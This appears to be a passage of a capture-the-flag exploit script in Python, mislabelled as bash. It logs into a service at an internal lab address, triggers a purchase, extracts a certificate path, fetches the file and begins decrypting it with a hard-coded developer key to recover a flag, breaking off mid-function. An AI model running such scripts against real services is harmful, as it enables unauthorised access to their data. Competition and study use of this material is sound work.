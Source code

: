 ```bash
def login(ip, username, password):
    paramsGet = {"op": "login", "action": "user"}
    paramsPost = {"password": password, "submit": "Login", "username": username}
    headers = {"Origin": "https://10.0.10.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.10.5/?action=user&op=login", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}/".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'Login failed' in response.content:
        print('Login failed:{}'.format(username))
        return False
    if "Let's buy some" in response.content:
        print('Login succ:{}'.format(username))
        return True


def buy(ip, name='JPM', note='1', amount='1', hash='sha1'):
    paramsGet = {"op": "buy", "action": "bank"}
    paramsPost = {"name": name, "note": note, "amount": amount, "hash": hash}
    headers = {"Origin": "https://10.0.10.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.10.5/", "Connection": "close", "Accept-Encoding": "gzip, deflate",
               "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8"}
    response = session.post("https://{}/".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    res = response.content
    p = res.split("cert'>")[1].split("</a>")[0]
    return p


def get_data(ip, p):
    target_path = "https://{}/{}".format(ip, p)
    response = session.get(target_path)
    # print(response.content)
    res = response.content
    return res


def exp(res):
    key = "StrongSecretKeyForDeveloping >.^".encode()

    def dec(key, byte):
        flag = ""
        n1 = len(key)
        n2 = len(byte)
        n = max(n1, n2)
```